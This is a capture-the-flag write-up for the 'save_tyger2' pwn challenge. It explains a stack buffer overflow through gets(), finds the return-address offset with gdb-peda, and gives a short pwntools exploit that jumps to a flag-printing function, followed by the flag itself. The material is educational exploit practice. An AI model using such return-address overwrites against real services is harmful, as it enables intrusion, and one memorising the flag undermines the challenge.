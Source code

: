 # save_tyger2
![](https://img.shields.io/badge/category-pwn-blue)
![](https://img.shields.io/badge/solves-145-orange)

## Description
Tyger needs your help again.

Connect with `nc litctf.live 31788`

[save_tyger2.zip](https://drive.google.com/uc?export=download&id=1qCSTo01YjzrncT0SZGOTouC4egY_q-PX)

## Solution
In `save_tyger2.c`, we can see that there is a cell function that prints the flag. There is also a main function which uses the dangerous `gets` to read input into an array, and then return.

Due to the dangerous nature of `gets` (reading as many bytes as the user inputs), if stack protection is turned off and the address of cell is fixed (no PIE), then we can overwrite the saved return address of main so that when it returns, it returns to cell.
```
$ checksec save_tyger2
[*] '~/lit/save_tyger2/save_tyger2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Wonderful! No stack canary, and no PIE either. We can use gdb-peda to determine how much garbage to write before overwriting the return address.
```gdb
$ gdb save_tyger2
gdb-peda$ pattern create 80
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A'
gdb-peda$ r
Starting program: ~/lit/save_tyger2/save_tyger2
warning: Error disabling address space randomization: Operation not permitted
NOOOO, THEY TOOK HIM AGAIN!
Please help us get him out or there is no way we will be able to prepare LIT :sadness:
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4A

Program received signal SIGSEGV, Segmentation fault.
```
Because we got a segfault, it means that we successfully overwrote the return address. The pattern string is important because it helps us figure out how many bytes to send before overwriting the return address.
```
gdb-peda$ pattern search
Registers contain pattern buffer:
RSI+-112 found at offset: 6610
RBP+0 found at offset: 32
Registers point to pattern buffer:
[RSI] --> offset 1 - size ~81
[RSP] --> offset 40 - size ~40
[R8] --> offset 0 - size ~80
```
The pattern is reported at the top of the stack at offset 40, meaning that we should write 40 bytes of garbage, followed by the address of cell, to get the flag.
```py
from pwn import *

elf = ELF("./save_tyger2")

pay = b'A'*40 + p64(elf.symbols['cell'])

p = remote("litctf.live", 31788)
p.sendline(pay)

p.interactive()
```

Flag: `LITCTF{w3_w0nt_l3t_th3m_t4k3_tyg3r_3v3r_4gain}`
